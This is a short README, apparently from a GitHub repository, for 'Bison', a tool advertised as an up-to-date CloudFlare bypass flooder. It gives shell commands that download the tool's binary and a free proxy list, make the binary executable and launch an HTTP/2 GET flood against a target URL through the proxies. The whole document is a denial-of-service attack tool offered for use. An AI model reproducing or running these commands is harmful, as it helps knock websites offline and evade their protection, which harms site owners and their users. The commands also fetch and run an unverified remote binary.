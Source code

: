 # Bison CloudFlare bypass flooder | UP TO DATE 2025

### Installation

```shell
apt install unzip wget -y
wget https://github.com/lincolnTOP/bison-cf-bypass/raw/refs/heads/main/bison.zip
wget -O proxy.txt "https://api.proxyscrape.com/v4/free-proxy-list/get?request=display_proxies&proxy_format=ipport&format=text"
unzip bison.zip
chmod 777 bison
rm -rf bison.zip
```

### Usage
To use the script, run the following command in your terminal:
```shell
./bison GET "https://example.com" 60 1 5 proxy.txt --delay 1 --debug --http 2 --parsed --query 1
```

Proxies are downloading automatically also
./bison for options

